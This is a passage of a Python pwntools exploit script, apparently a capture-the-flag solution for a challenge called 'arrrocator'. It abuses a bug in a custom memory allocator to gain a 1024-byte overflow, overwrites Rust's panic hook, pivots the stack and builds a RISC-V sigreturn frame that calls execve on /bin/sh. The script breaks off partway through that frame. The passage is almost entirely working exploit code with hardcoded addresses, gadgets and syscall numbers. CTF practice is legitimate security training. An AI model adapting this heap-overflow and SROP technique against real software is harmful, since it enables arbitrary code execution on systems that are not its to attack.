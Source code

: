 ```python
            io = gdb.debug([exe.path], aslr=False, api=False, gdbscript="""
            set follow-fork-mode parent
            """)
        else:
            io = process([exe.path])
            #gdb.attach(io)
    else:
        # io = remote("arrrocator-47629d6aa2bb0c27.chal.ush.pw", 443, ssl=True)
        io = remote("127.0.0.1", 1337)
    return io


def main():
    io = conn()
    # Exploit the bug in the memory allocator to get a strong primitive
    # of a 1024-byte long overflow.
    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"1024")
    io.sendlineafter(b"flag:", b"A")

    io.sendlineafter(b"gimme", b"2")

    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"2048")

    # Address where `do_pivot` is. `rust_panic_with_hook` reads this address
    # and jumps to whatever function pointer is in there.
    mem_addr = 0x614f8
    
    syscall_plt = 0x121a0
    # Syscall numbers.
    sigret = 0x8b
    execve = 0xdd

    # Distance from sp to the beg of memory we control is 0x450 (1104).
    # The sp pivot is `addi    sp,sp,1296`.
    sp_pivot = 0x1a2b2

    mem_start = p64(sp_pivot)

    # We overwrite std::panicking::HOOK with this.
    overflow = b"\x00" * 128 + \
        p64(0x414141) + p64(sigret) + p64(mem_addr-0x28)

    # The offset 184 is where return address after stack pivot happens to be.
    do_pivot = flat({
        184: p64(syscall_plt)
    })

    # Syscall gadget.
    ecall = 0x000000000005068c
    
    srop = flat({
        # pc
        304: p64(ecall),
        # a0-2
        384+8*0: p64(0x061600), # Address of /bin/sh.
        384+8*1: p64(0),
        384+8*2: p64(0),
        # a7
        384+7*8: p64(execve),
        # gp
        328: p64(0x41),
```
